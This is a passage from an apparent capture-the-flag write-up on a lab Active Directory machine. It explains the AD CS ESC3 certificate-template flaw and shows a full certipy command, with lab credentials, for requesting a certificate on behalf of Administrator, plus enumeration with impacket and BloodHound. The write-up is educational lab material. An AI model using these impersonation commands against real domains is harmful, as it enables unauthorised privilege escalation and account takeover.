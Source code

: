 ![picture5](picture44.png)

**So what ESC3 vulnerability is actually**: We (as an attacker) can request a user's certificate on their behalf using an Enrollment Agent certificate, allowing the us to impersonate that user.

![picture5](picture45.png)

First we must request for our user certificate using `EnrollAgent` *or any template will do*.

![picture5](picture47.png)

Here i used the template `Delegated-CRA` to request for the certificate.

![picture5](picture46.png)

Then i tried to request a certificate on behalf of Administrator.

```bash
certipy req \
    -u Lion.SK@certificate.htb -p '!QAZ2wsx' \
    -dc-ip 10.10.11.71 -target 'DC01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\Administrator'
```

But failed....

```bash
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 23
[-] Got error while requesting certificate: code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
```

This is because the Administrator did not have the email setup for them, that is what caused the error.

### Finding alternate way to gain Administrator access

Using `GetADUsers.py` from `impacket-tools`, we scanned the Active Directory (AD) for users that have the email setup for them so that we can request the certificate on their behalf and gained the access to impersonate them.

![picture5](picture48.png)

We go back to `bloodhound` and look through the groups where the users belongs to and the result is that `ryan.k` is in a group called `Domain Storage Managers` which from the description is the `security group that responsible for volume-level tasks inside the server`. Seems like a high priviledge group to me.

![picture5](picture49.png)

![picture5](picture50.png)
